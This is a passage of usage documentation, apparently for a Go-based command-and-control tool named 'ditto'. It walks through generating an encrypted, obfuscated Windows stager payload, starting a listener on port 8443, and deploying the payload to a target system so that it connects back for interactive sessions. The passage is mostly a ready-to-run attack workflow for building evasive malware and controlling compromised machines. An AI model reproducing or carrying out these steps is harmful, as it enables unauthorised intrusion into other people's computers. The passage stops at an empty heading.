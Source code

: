 ### Option 3: Install to PATH

```bash
# Install globally
make install
# or
go install .

# Use from anywhere
ditto --mode generate --payload stager --os windows
```

---

## Complete Workflow Example

### Step 1: Generate Payload

```bash
go run main.go --mode generate \
    --payload stager \
    --os windows \
    --arch amd64 \
    --output payload.exe \
    --encrypt \
    --obfuscate \
    --debug
```

**Output**: `payload.exe` will be created

### Step 2: Start Server

```bash
go run main.go --mode server \
    --listen 0.0.0.0:8443 \
    --debug
```

**Output**: Server starts listening on port 8443

### Step 3: Deploy Payload

Deploy `payload.exe` to target system. It will connect back to your server.

### Step 4: Interact with Session

Use the server interface to interact with connected sessions.

---

## Advanced Usage
